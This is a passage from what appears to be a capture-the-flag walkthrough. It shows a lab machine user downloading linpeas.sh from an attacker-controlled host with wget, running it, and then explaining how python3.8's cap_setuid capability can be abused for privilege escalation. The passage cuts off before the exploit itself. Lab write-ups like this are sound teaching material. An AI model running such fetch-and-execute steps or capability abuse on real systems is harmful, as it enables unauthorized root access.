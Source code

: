 
I’ll request it with `wget`:

    
    
    nathan@cap:/tmp$ wget 10.10.14.5/linpeas.sh                                                                                             
    --2021-10-02 10:33:19--  http://10.10.14.5/linpeas.sh                                                                                   
    Connecting to 10.10.14.5:80... connected.                                                                                               
    HTTP request sent, awaiting response... 200 OK
    Length: 470149 (459K) [text/x-sh]
    Saving to: ‘linpeas.sh’
    
    linpeas.sh                        100%[=============================================================>] 459.13K  1.79MB/s    in 0.3s    
    
    2021-10-02 10:33:19 (1.79 MB/s) - ‘linpeas.sh’ saved [470149/470149]
    

And run it with `bash linpeas.sh`. The section on capabilities has `python3.8`
highlighted to the max:

![image-20211002063515904](https://0xdfimages.gitlab.io/img/image-20211002063515904.png)

### Shell

#### Capabilities Background

The man page describes `cap_net_bind_service` as:

>
>     Bind a socket to Internet domain privileged ports (port
>     numbers less than 1024).
>  

This is a really useful capability because it allows this one action without
giving full root. In fact, I’ve set this capability on `python` on my VM so I
don’t have to run `sudo` every time I want to start a Python webserver.

The man page describes `cap_setuid` as:

>
>     * Make arbitrary manipulations of process UIDs (setuid(2),
>     setreuid(2), setresuid(2), setfsuid(2));
>     * forge UID when passing socket credentials via UNIX
>     domain sockets;
>     * write a user ID mapping in a user namespace (see
>     user_namespaces(7)).
>  

`cap_seduid` has some good uses on binaries, but on something like Python
which can take arbitrary user input, it is dangerous.

#### Abusing Capabilities

I’ll abuse the `cap_setuid` to change the user id of the current process to
something else, like I observed above. If this capabilities just applied to
the webserver, there would be no issue. But I can also open a Python terminal:
